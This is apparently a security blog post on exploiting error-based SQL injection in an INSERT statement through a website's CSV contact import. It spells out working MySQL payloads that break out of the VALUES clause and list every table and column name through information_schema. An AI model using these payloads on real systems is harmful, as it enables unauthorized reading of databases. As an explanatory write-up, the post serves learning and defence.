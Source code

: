 +++
title = 'Exploiting Sql Injection Insert Statement'
date = 2025-01-09T15:11:14+01:00
draft = false
type = "post"
excerpt = "In this blog post, I will discuss how I manually exploited an SQL injection vulnerability in an INSERT query statement."
authors = ["Hassan AL ACHEK"]
tags = []
categories = []
readingTime = 5  
hero = "/images/default.jpg"
+++
# What is SQL Injection?
SQL Injection is a vulnerability that occurs when user input is directly used to build a query statement, which is then executed against the application's database. By taking user input without proper validation and sanitization and dynamically building SQL queries, an attacker can insert carefully crafted input—often referred to as a payload—to exploit and execute malicious queries. These queries can allow the attacker to read, write, delete, or modify data in the database. 

There are multiple types of SQL injection. For more detailed information about this vulnerability, I recommend checking out PortSwigger Academy or the OWASP guide.

# INSERT Statement:
This statement is usually used to insert new row into an SQL table. So for example in a web application if you want to insert a new user into the users table you will execute something like that:

```bash
INSERT INTO users(name, mail, phone_number, password) VALUES ('Hassan', 'hassan@gmail.com', '777777', 'pass123')
```

# SQL Injection into INSERT Statement
## History:
I was testing a website and found a functionality that allowed me to import contacts from a CSV file. The CSV file consisted of 5 columns, and I could choose the type of separator used in the file. The default separator was a comma (,), but I could also choose a slash (/) or a semicolon (;).

## The Vulnerability:
After testing this functionality, I noticed that the contacts imported from the CSV file were saved into the database for the user I was logged in as. 

This was done to store the contacts so that the user could use them later—for example, to send messages to these contacts or create groups for bulk SMS sending.

The header of the CSV files is the following:
`Name, Family Name, Number, Email, Info`

I decided to put a `'` in one of the columns, so i created a CSV file with the following row:

`hassan, alachek', 7777, hassan@gmail.com, engineer`
The result was and i clicked import i got the following SQL error:

```bash
dberr: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '7777', 't', 't', 'Axxxxxx')' at line 1
INSERT INTO addressbook (`name`, `family_name`, `phone`, `email`, `info`, `userid`) VALUES('t', 't'', '7777', 't', 't', 'Axxxxxx')   
```

So this is an error based SQLI. I decided to exploit it manually by crafting each time a new CSV file and import it to the web application.

![Import Functionality](/images/sqli-import.png)

### Reading All Table Names:

```mysql
test;test;test;test',(SELECT GROUP_CONCAT(table_name SEPARATOR '/ ') FROM information_schema.tables WHERE table_schema != "mysql" AND table_schema != "information_schema"),'Axxxxxx')#;test
```

The resulting SQL query:

```mysql
INSERT INTO addressbook (`name`, `family_name`, `phone`, `email`, `info`, `userid`) VALUES ('test', 'test', 'test', 'test', (SELECT GROUP_CONCAT(table_name SEPARATOR '/ ') FROM information_schema.tables WHERE table_schema != "mysql" AND table_schema != "information_schema"), 'Axxxxxx')
```
![All DB Tables](/images/sqli-result-tables.png)

### Reading All Column Names:

```mysql
test;test;test;test',(SELECT GROUP_CONCAT(column_name SEPARATOR '/ ') FROM information_schema.columns WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_name="history_detailed"),'Axxxxxx')#;test
```

The resulting SQL query:
```mysql
INSERT INTO addressbook (`name`, `family_name`, `phone`, `email`, `info`, `userid`) VALUES ('test', 'test', 'test', 'test', (SELECT GROUP_CONCAT(column_name SEPARATOR '/ ') FROM information_schema.columns WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_name="history_detailed"), 'Axxxxxx')
```

Using a nested query allows you to execute the inner query and then replace its result into the `VALUES` clause of the `INSERT` query.

Below is an illustration of the execution flow:

![Execution Flow](/images/sqli-execution-flow.png)




